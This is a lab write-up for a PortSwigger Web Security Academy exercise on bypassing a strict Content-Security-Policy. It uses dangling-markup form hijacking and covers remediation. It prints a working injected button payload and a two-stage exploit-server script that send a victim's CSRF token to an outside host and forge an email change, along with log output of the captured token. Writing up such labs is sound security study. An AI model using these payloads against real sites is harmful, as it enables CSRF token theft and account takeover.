








# Write-up - Reflected XSS behind a strict CSP (dangling markup exfiltration)

> Lab: **Reflected XSS protected by very strict CSP, with dangling markup attack**
> Category: Cross-Site Scripting (CWE-79 / OWASP A03:2021)
> Difficulty: Practitioner . Stack: client-side (browser DOM), Content-Security-Policy
> Legal platform: PortSwigger Web Security Academy

## Lab brief

> This lab uses a strict CSP that prevents the browser from loading subresources
> from external domains.
>
> To solve the lab, perform a form hijacking attack that bypasses the CSP,
> exfiltrates the simulated victim user's CSRF token, and uses it to authorize
> changing the email to `hacker@evil-user.net`.
>
> You must label your vector with the word "Click" in order to induce the
> simulated user to click it. For example: `<a href="">Click me</a>`
>
> You can log in to your own account using the following credentials:
> `wiener:peter`.
>
> Source: [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

## 1. Context

The "My account" page reflects the value of the `email` query parameter straight
into the `value` attribute of the change-email form, which is a textbook XSS
sink. The catch is a **very strict Content-Security-Policy**: it allows scripts
and images from `'self'` only, so a classic `<script>` payload never executes and
an `` beacon is blocked.

Injecting markup is still possible even when running script is not. The CSP sets
`script-src`, `img-src`, `object-src` and `base-uri`, but it **forgets the
`form-action` directive**. That gap lets injected markup hijack where the
existing form submits, which is enough to steal the anti-CSRF token of a victim
and change their email address - with no JavaScript executing on the target page.

- **Injection point**: `email` query parameter on `/my-account`
- **Defense in place**: strict CSP, but **no `form-action`**
- **Sensitive value to steal**: the victim's CSRF token (hidden form field)
- **Goal**: exfiltrate the CSRF token via an injected form control, then use it
  to change the victim's email address and solve the lab.

Initial state of the lab (not solved):

<p align="center">
  
</p>

## 2. Environment and setup

| Item | Detail |
|---|---|
| OS | Windows 11 (WSL2 for notes) |
| Main tool | Burp Suite Community Edition |
| Browser | Chromium embedded in Burp (Open Browser) |
| Exploit server | PortSwigger exploit server (host page, read access log) |
| Target | PortSwigger lab instance (`*.web-security-academy.net`) |

Steps performed to get ready:

1. Launched Burp Suite Community (Temporary project, Burp defaults).
2. Set Proxy > Intercept to "Intercept is off" to browse freely.
3. Opened the embedded browser (Proxy > Open Browser), already wired to the proxy.
4. Logged in to the target with `wiener:peter`.

<p align="center">
  
</p>

On the "My account" page, the email is editable through a form that posts to
`/my-account/change-email` and carries a hidden CSRF token - the value we will
ultimately steal from the victim.

<p align="center">
  
</p>

## 3. Reconnaissance

### 3.1 Finding the reflection

Browsing to `/my-account?email=test"><h1>canary</h1>` shows that the parameter is
reflected into the form. The `">` closes the `value` attribute and the `<h1>`
lands in the page as real markup, confirming an HTML-context injection.

<p align="center">
  
</p>

In Burp the response confirms it: the injected markup breaks out of the
`value="..."` of the email input, and the `csrf` hidden input sits immediately
after it inside the same `<form>`.

```html
<input required type="email" name="email" value="test"><h1>canary</h1>">
<input required type="hidden" name="csrf" value="TWOX2lPe1ZCXgFENuKavnX4yXw3kD9AK">
<button class='button' type='submit'> Update email </button>
```

### 3.2 Reading the CSP

The same response carries the policy that blocks the easy route:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; style-src 'self';
                         script-src 'self'; img-src 'self'; base-uri 'none';
```

`script-src 'self'` kills inline and external scripts; `img-src 'self'` kills
image beacons. Crucially there is **no `form-action`**, so a form may submit to
any origin - including an attacker server.

<p align="center">
  
</p>

## 4. Exploitation

### 4.1 The idea: a form-action CSP bypass

Because the CSRF token lives in a hidden field of the form, and the form's
destination is not constrained by `form-action`, we break out of the `email`
attribute and inject a button whose `formaction` points at our exploit server
and whose `formmethod` is `get`. The button is part of the original form, so
submitting it sends every field - including the CSRF token - to us, in the query
string, with no JavaScript at all.

```
foo@bar.com"><button formaction="https://exploit-0a6600510460d5fb806d02f5018200c8.exploit-server.net/exploit" formmethod="get">Click me</button>
```

Loading this URL on the target shows the injected "Click me" button inside the
account form.

<p align="center">
  
</p>

Two details made the difference between a payload that looks right and one that
actually fires:

- **The email must be valid.** The field is `<input required type="email">`, so a
  value like `test` fails HTML5 validation and the browser silently refuses to
  submit. Starting the payload with `foo@bar.com` makes the field valid so the
  submission goes through. This is exactly why an early delivery captured
  nothing: the victim "clicked" but the browser blocked the invalid form.

### 4.2 Automating the two stages on the exploit server

A single page hosted at `/exploit` handles both stages. With no `csrf`
parameter it redirects the victim to the vulnerable page carrying the button
payload; once the button submits back with `?csrf=...`, the same page builds a
POST form to the change-email endpoint using the stolen token and auto-submits
it.

```html
<body>
<script>
const lab = 'https://0a340030041ad5d5802003ff00d00092.web-security-academy.net/';
const exploit = 'https://exploit-0a6600510460d5fb806d02f5018200c8.exploit-server.net/exploit';
const params = new URLSearchParams(location.search);

if (params.has('csrf')) {
    // Stage 2: we have the victim's token -> forge the email change
    const f = document.createElement('form');
    f.method = 'POST';
    f.action = lab + 'my-account/change-email';
    f.innerHTML =
        '<input name="csrf" value="' + params.get('csrf') + '">' +
        '<input name="email" value="hacker@evil-user.net">';
    document.documentElement.appendChild(f);
    f.submit();
} else {
    // Stage 1: send the victim to the vulnerable page with the injected button
    location = lab + 'my-account?email=' + encodeURIComponent(
        'foo@bar.com"><button formaction="' + exploit + '" formmethod="get">Click me</button>'
    );
}
</script>
</body>
```

<p align="center">
  
</p>

- **The script must run after a body exists, and append to `documentElement`.**
  A first version wrapped the script with no `<body>` and called
  `document.body.appendChild(...)`. The script runs during head parsing, so
  `document.body` is `null`, the form is never built, and the POST never fires
  (the page just looks blank). Wrapping the script in `<body>` and appending to
  `document.documentElement` fixes it - this was the reason the victim looped
  back to `/exploit?csrf=...` several times without the email ever changing.

After the button submits, the email field simply holds `foo@bar.com`; the
valuable field is the CSRF token that rides along with it.

<p align="center">
  
</p>

### 4.3 Delivering to the victim and capturing the token

Clicking "Deliver exploit to victim" runs the chain against the simulated user.
The exploit server access log shows the victim (`10.0.4.213`, "Victim"
user-agent) fetching `/exploit/`, then submitting back with the token in the
query string:

```
10.0.4.213  "GET /exploit/"                                                 200  (Victim)
10.0.4.213  "GET /exploit?email=foo%40bar.com&csrf=WZtQLUZaMfTg0A5HawYiQiznBFJsejcX"  200  (Victim)
```

The victim's CSRF token (`WZtQ...`, different from my own `TWOX...`) has been
exfiltrated, and stage 2 immediately replays it as a POST to change the email.

<p align="center">
  
</p>

### 4.4 Solving the lab

With the victim's email changed using their own stolen token, the lab flips to
solved.

<p align="center">
  
</p>

## 5. Impact

A strict CSP raises the bar but is not a silver bullet. An attacker who can
inject markup can still steal sensitive in-page data (CSRF tokens, secrets,
partial form values) by hijacking an existing form when `form-action` is
missing - with no script execution at all. Here that leads to a full
CSRF-protected action being forged on behalf of the victim (email takeover, a
common stepping stone to account takeover). The attack needs the victim to
follow a crafted link but requires no privileges on the attacker side.
Indicative severity: High.

## 6. Remediation

State the root cause and primary fix first, then defense in depth.

- **Primary fix**: context-aware output encoding of all reflected data, so
  attacker-controlled markup can never be emitted into the page. The `email`
  value must be HTML-attribute-encoded.
- **Do not rely on CSP alone**: CSP mitigates script execution but does not stop
  form-hijacking data theft; treat it as defense in depth, not a fix.
- **Close the policy gap**: set a restrictive `form-action` directive (and review
  `base-uri`, already locked here) so forms cannot submit to arbitrary origins.
- **Protect the secret**: scope CSRF tokens tightly and rotate them; avoid
  rendering secrets where a markup injection can capture them.
- **Framework auto-escaping**: prefer templating that escapes by default.

Reference: OWASP XSS Prevention Cheat Sheet; PortSwigger "Dangling markup
injection" and "Content Security Policy"; CWE-79.

## Screenshot index

| # | File | Description |
|---|------|-------------|
| 01 | `01-lab-not-solved.png` | Lab in its initial, not-solved state |
| 02 | `02-login.png` | Logging in to the target as `wiener` |
| 03 | `03-account-page.png` | My account page with the change-email form |
| 04 | `04-canary-url.png` | Canary payload `test"><h1>canary</h1>` in the URL |
| 05 | `05-reflection-and-csp.png` | Reflected canary and the strict CSP header in Burp |
| 06 | `06-injected-button.png` | Injected "Click me" button inside the form |
| 07 | `07-exploit-server-script.png` | Two-stage payload hosted on the exploit server |
| 08 | `08-injected-email-field.png` | Email field carrying the injected value |
| 09 | `09-token-captured.png` | Victim CSRF token captured in the access log |
| 10 | `10-lab-solved.png` | Lab solved |
</content>
